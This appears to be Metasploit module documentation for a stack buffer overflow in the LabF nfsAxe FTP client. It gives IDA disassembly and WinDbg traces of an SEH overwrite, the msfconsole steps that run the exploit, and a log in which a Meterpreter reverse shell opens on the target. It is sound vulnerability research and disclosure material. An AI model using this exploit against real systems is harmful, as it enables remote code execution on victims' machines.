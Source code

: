 # LabF nfsAxe FTP Client 3.7 Stack Buffer Overflow

## Introduction

LabF nfsAxe is a package of NFS servers and clients on Windows, including:

* NFS Client
* NFS Server
* FTP client
* Telnet
* LPD & LPR
* TFTP

The FTP client is vulnerable a stack-based buffer overflow due to the way it handles the server
input, which could lead to arbitrary remote code execution under the context of the user.

The exploit was tested on Windows 7 Enterprise SP1 (English).

## Vulnerable Application

The vulnerable copy can be [downloaded from Exploit-DB](https://www.exploit-db.com/apps/81575f3c81f28a239e881f68e5ea82b1-nfsaxe.exe).

## Root Cause Analysis

Inside sub_42C890() of ftp.exe, a stack buffer ```[esp+2424h+ptrBuffer]``` is passed as an
argument to sub_42EE10():

```
AUTO:0042C8FF loc_42C8FF:                             ; CODE XREF: sub_42C890+16Aj
AUTO:0042C8FF                                         ; sub_42C890+1B5j
AUTO:0042C8FF                 push    edi
AUTO:0042C900                 mov     ebx, 3FFh
AUTO:0042C905                 lea     edx, [esp+2424h+ptrBuffer]
AUTO:0042C90C                 push    1
AUTO:0042C90E                 mov     eax, ds:dword_465100
AUTO:0042C913                 mov     ecx, edi
AUTO:0042C915                 call    sub_42EE10      ; Call Procedure
```

According to IDA, the buffer size is 1024 bytes:

```
-0000041C ptrBuffer       db 1024 dup(?)
```

The buffer pointer is used to receive data from the FTP server. It is passed all the way to
xwpwsock!recv_dll, and then WS2_32!recv. Finally, the exploit causes the exploit to crash
because the malicious string is long enough that causes an out-of-bound WRITE. This can
be observed by the following demonstration with these breakpoints:

```
bp 0042c915 ".printf \"Passing static buffer pointer at 0x%08x\", edx; .echo ;g"
bp 0042ea0c ".printf \"Destination buffer for receive is: 0x%08x\n\", edx; .echo; g"
bp 0042eb73 ".printf \"EDX Text dump: %ma\n\", edx; .echo; .echo; g"
```

The WinDBG output:

```
Passing static buffer pointer at 0x027ff4f4
Destination buffer for receive is: 0x027ff4f4 
EDX Text dump: AAAAAAAAAAAAAAA ........ AAAAAAAAAAAAAAA (a very long string)

(d48.864): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000041 ebx=000003fe ecx=ffffdbfc edx=000003fe esi=027ffc02 edi=02800000
eip=0042cac5 esp=027fd4ec ebp=000023ee iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206
ftp+0x2cac5:
0042cac5 8807            mov     byte ptr [edi],al          ds:0023:02800000=??
```

In this crash, ESI is the source input, which is filled with our malicious input:

```
0:001> dd esi
027ffc02  41414141 41414141 41414141 41414141
027ffc12  41414141 41414141 41414141 41414141
027ffc22  41414141 41414141 41414141 41414141
027ffc32  41414141 41414141 41414141 41414141
027ffc42  41414141 41414141 41414141 41414141
027ffc52  41414141 41414141 41414141 41414141
027ffc62  41414141 41414141 41414141 41414141
027ffc72  41414141 41414141 41414141 41414141
```

EDI would be the destination buffer used for this copy routine:

```
AUTO:0042CAC3 loc_42CAC3:                             ; CODE XREF: sub_42C890+249j
AUTO:0042CAC3                 mov     al, [esi]       ; ESI is the malicious input
AUTO:0042CAC5                 mov     [edi], al       ; EDI = our buffer, and AL is a byte from the malicious input
AUTO:0042CAC7                 cmp     al, 0           ; Check null byte
AUTO:0042CAC9                 jz      short loc_42CADB ; Done copying
AUTO:0042CACB                 mov     al, [esi+1]     ; The next byte
AUTO:0042CACE                 add     esi, 2
AUTO:0042CAD1                 mov     [edi+1], al
AUTO:0042CAD4                 add     edi, 2
AUTO:0042CAD7                 cmp     al, 0
AUTO:0042CAD9                 jnz     short loc_42CAC3 ; Continue copying if string isn't null
```

Since the exploit supplies a string that is long enough, the SEH chain on the stack is also
overwritten:

```
0:001> !exchain
027fff70: 41414141
Invalid exception stack at 41414141
```

The exploit simply overwrites the SEH chain to gain arbitrary code execution.

## Verification Steps

To test the exploit:

1. Install the application
2. Start `msfconsole`
3. Do: `use exploit/windows/ftp/labf_nfsaxe`
4. Set options and payload
5. Do: `exploit`
6. Connect to the FTP server using the FTP client
7. You should get a session like the following demonstration:

```
msf exploit(windows/ftp/labf_nfsaxe) > run

[*] Started reverse TCP handler on 172.16.85.1:4444 
[*] Please ask your target(s) to connect to 172.16.85.1:21
[*] Server started.
msf exploit(windows/ftp/labf_nfsaxe) >
[*] 172.16.85.134 - connected.
[*] 172.16.85.134 - Response: Sending 220 Welcome
[*] 172.16.85.134 - Request: AUTH GSSAPI
[*] 172.16.85.134 - Response: sending 331 OK
[*] 172.16.85.134 - Request: ADAT TlRMTVNTUA==
[*] 172.16.85.134 - Response: Sending 230 OK
[*] 172.16.85.134 - Request: USER Guest
[*] 172.16.85.134 - Request: Sending the malicious response
[*] Sending stage (179779 bytes) to 172.16.85.134
[*] Meterpreter session 1 opened (172.16.85.1:4444 -> 172.16.85.134:49213) at 2018-01-09 22:38:33 -0600
```

## References

https://www.exploit-db.com/exploits/43236/
